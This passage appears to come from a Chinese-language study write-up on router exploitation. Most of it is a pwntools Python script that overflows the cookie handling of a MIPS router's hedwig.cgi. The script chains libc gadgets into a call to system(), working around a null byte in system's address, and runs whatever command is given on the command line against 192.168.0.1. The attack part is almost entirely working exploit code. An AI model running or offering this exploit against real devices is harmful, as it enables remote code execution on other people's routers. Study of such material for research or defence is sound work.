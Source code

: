 这里为了解决system地址以00结尾，使用了曲线救国(加减法)

$ra == gadget_2_addr， cmd位于$sp-0x10

然后用pwntools加工一下，书上的用标准库有点长：

```python
#!/usr/bin/env python
from pwn import*
import requests
import sys

context.arch = 'mips'
context.endian = 'little'

elf = ELF('./htdocs/cgibin')

libc_addr = 0x2aaf8000
system_off = 0x53200

gadget_1 = 0x000328BC  	#move $a0, $s3, jmm $s1
gadget_2 = 0x000158C8  	#add $s0, 1 , jmp $s5
gadget_3 = 0x000159CC	#move $s5, $sp-0x10  move $t9, $s0  move $a0, $s5 jmp $t9
#target: system(any cmd)

def payload_maker():

	# padding = 'sss' + shellcode.ljust(959, 'A')
	padding = 'A'*959
	padding += p32(system_off + libc_addr - 1)	#s0 = system_addr - 1
	padding += 'C'*4		#s1
	padding += 'B'*4		#s2
	padding += 'D'*4		#s3
	padding += 'E'*4 		#s4
	padding += p32(gadget_3 + libc_addr)		#execv a0==s5==cmd_adr, s0==system_addr
	padding += 'G'*4 		#S6
	padding += 'H'*4		#s7
	padding += 'I'*4 		#fp
	padding += p32(gadget_2 + libc_addr)		#execv add $s0, 1 , jmp $s5
	padding += '*'*0x10 	#padding for cmd
	padding += sys.argv[1]
	if '\x00' in padding or '\r\n' in padding:
		info("[*] Bad Bytes in payload")
		exit(0)
	return padding

def pwn():
	payload = payload_maker()
	success(payload)
	target = "http://192.168.0.1/hedwig.cgi"
	Badheadr = {"Cookie":'uid=1234&password=' + payload}
	body = {"uid":"1234", "password":"1234"}

	try:
		attack = requests.post(url=target, headers=Badheadr, data=body)
	except requests.exceptions.ConnectionError:
		success("Package deliverd")


if __name__ == '__main__':
	pwn()
```
